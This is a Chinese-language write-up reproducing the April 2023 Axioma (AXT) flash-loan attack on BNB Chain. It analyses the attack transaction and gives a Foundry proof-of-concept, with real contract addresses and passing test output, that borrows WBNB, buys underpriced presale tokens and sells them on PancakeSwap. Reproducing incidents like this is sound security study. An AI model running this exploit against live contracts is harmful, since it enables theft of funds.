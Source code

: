 [区块链安全-DEFI攻击复现]000-20230424 Axioma

今天起，我将每天坚持输出一份DEFI攻击的复现及自己的POC代码编写，与诸君共勉。

整个文档将分为数个部分，包括攻击介绍、攻击分析、POC代码编写及反思。

<hr />

# # 攻击介绍

2023年4月23日，`@HypernativeLabs`发布称`BSC`链上的`AXT`通证遭受了攻击，攻击者利用`Arbi`通证预售的`坏价格`获取了`21WBNB`的利润，约合7K美元。

攻击`Tx hash`为`0x05eabbb665a5b99490510d0b3f93565f394914294ab4d609895e525b43ff16f2`

<hr />

# 攻击分析

使用`phalcon`进行<a href="https://explorer.phalcon.xyz/tx/bsc/0x05eabbb665a5b99490510d0b3f93565f394914294ab4d609895e525b43ff16f2">分析</a>，发现这是一个闪电贷攻击。

攻击者`0xaaa75b2ae8314ef738062da56e0f09d2d53c43d2`通过`DPPoracle`的闪电贷`flashLoan`函数进行借款，换取`32.5 WBNB`。

攻击者在闪电贷合约的回调函数`DPPFlashLoanCall`中与`Axioma`的预售合约`0x2c25aee99ed08a61e7407a5674bc2d1a72b5d8e3`进行交互，获得了`9750 AXT`。

在`PancakeSwap`上将`AXT`卖掉，又换成了`WBNB`，偿还闪电贷，攻击完成。

# POC编写

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../interface.sol";

// @KeyInfo - Total Lost : ~ 7K US$
// Event : Axioma Hack
// Analysis via https://explorer.phalcon.xyz/tx/bsc/0x05eabbb665a5b99490510d0b3f93565f394914294ab4d609895e525b43ff16f2
// Attacker : 0xaaa75b2ae8314ef738062da56e0f09d2d53c43d2
// Vulnerable Contract : 0x2c25aee99ed08a61e7407a5674bc2d1a72b5d8e3 (AXT Presale Contract)
// Vulnerable Contract : 0x6a3fa7d2c71fd7d44bf3a2890aa257f34083c90f (Pancake Swap Contract)
// Attack Tx : https://bscscan.com/tx/0x05eabbb665a5b99490510d0b3f93565f394914294ab4d609895e525b43ff16f2

// @Info
// FlashLoan Attack, arbitrage

// @Analysis
// DefiHackLab : https://twitter.com/HypernativeLabs/status/1650382589847302145


address constant DPPORACLE_ADDRESS = 0xFeAFe253802b77456B4627F8c2306a9CeBb5d681;
address constant PRESALE_ADDRESS = 0x2C25aEe99ED08A61e7407A5674BC2d1A72B5D8E3;
address constant SWAP_ADDRESS = 0x6a3Fa7D2C71fd7D44BF3a2890aA257F34083c90f;
address payable constant PANCAKE_ROUTER = payable(0x10ED43C718714eb63d5aA57B78B54704E256024E);

address constant WBNB_ADDRESS = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
address constant AXT_ADDRESS = 0xB6CF5b77B92a722bF34f6f5D6B1Fe4700908935E;

uint256 constant BORROW_AMOUNT = 30 ether;

contract AxiomaHack is Test { // EOA Simulation

    function setUp() public {
        vm.createSelectFork("bsc",27620320); // Go back before hacking time
        console.log("start with block %d",27620320);
        console.log("AxiomaHack address %s",address(this));
    }

    function testExploit() public {
        console.log("start hacking...");
        emit log_named_decimal_uint("[Start] Attacker WBNB Balance", WBNB(WBNB_ADDRESS).balanceOf(address(this)), 18);
        Exploit exploit = new Exploit();
        exploit.attack();
        console.log("finish hacking...");
        emit log_named_decimal_uint("[End] Attacker WBNB Balance", WBNB(WBNB_ADDRESS).balanceOf(address(this)), 18);
    }
}

contract Exploit is Test{

    address owner;

    constructor() {
        owner = msg.sender;
        console.log("Exploit address %s",address(this));
    }

    function attack() external {
        IDPPORACLE(DPPORACLE_ADDRESS).flashLoan(BORROW_AMOUNT, 0, address(this), "1");
    }

    function DPPFlashLoanCall(
        address sender,
        uint256 baseAmount,
        uint256 quoteAmount,
        bytes calldata data
    ) external{
        console.log("receiving flashLoan");
        emit log_named_decimal_uint("[Hacking] Exploit WBNB Balance", WBNB(WBNB_ADDRESS).balanceOf(address(this)), 18);
        WBNB(WBNB_ADDRESS).withdraw(BORROW_AMOUNT);
        IPresale(PRESALE_ADDRESS).buyToken{value:BORROW_AMOUNT}();
        emit log_named_decimal_uint("[Hacking] Exploit WBNB Balance", WBNB(WBNB_ADDRESS).balanceOf(address(this)), 18);
        
        uint256 axtAmount = IERC20(AXT_ADDRESS).balanceOf(address(this));
        emit log_named_decimal_uint("[Hacking] Exploit AXT Balance", axtAmount, 18);

        console.log("Swap AXT for WBNB");
        address[] memory paths = new address[](2);
        paths[0] = AXT_ADDRESS;
        paths[1] = WBNB_ADDRESS;
        IERC20(AXT_ADDRESS).approve(PANCAKE_ROUTER,type(uint256).max);
        IPancakeRouter(PANCAKE_ROUTER).swapExactTokensForTokensSupportingFeeOnTransferTokens(
            axtAmount,1,paths,address(this),block.timestamp *2
        );

        emit log_named_decimal_uint("[Hacked] Exploit WBNB Balance", WBNB(WBNB_ADDRESS).balanceOf(address(this)), 18);

        WBNB(WBNB_ADDRESS).transfer(msg.sender, BORROW_AMOUNT + 1 ether);
        WBNB(WBNB_ADDRESS).transfer(owner, WBNB(WBNB_ADDRESS).balanceOf(address(this)));

    }

    fallback() external payable {

    }
}


/* -------------------- Interface -------------------- */
interface IDPPORACLE{
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address _assetTo,
        bytes calldata data
    ) external;
}

interface IPresale {
    function buyToken() external payable;
}
```

输出如下：

```
[PASS] testExploit() (gas: 3103102)
Logs:
  start with block 27620320
  AxiomaHack address 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
  start hacking...
  [Start] Attacker WBNB Balance: 0.000000000000000000
  Exploit address 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
  receiving flashLoan
  [Hacking] Exploit WBNB Balance: 30.000000000000000000
  [Hacking] Exploit WBNB Balance: 0.000000000000000000
  [Hacking] Exploit AXT Balance: 9000.000000000000000000
  Swap AXT for WBNB
  [Hacked] Exploit WBNB Balance: 50.765903205913794244
  finish hacking...
  [End] Attacker WBNB Balance: 19.765903205913794244

Test result: ok. 1 passed; 0 failed; finished in 565.12ms
```

Foundry 测试结果表明，使用闪电贷款套利，成功收获`20WBNB`。

# 反思

老实说，我不认为这个算是DeFi攻击，只是“搬砖”并利用闪电贷放大收益而已。区块链就像是黑暗森林，利益是巨大的，既要攫取果实，也要守护好自己罢了。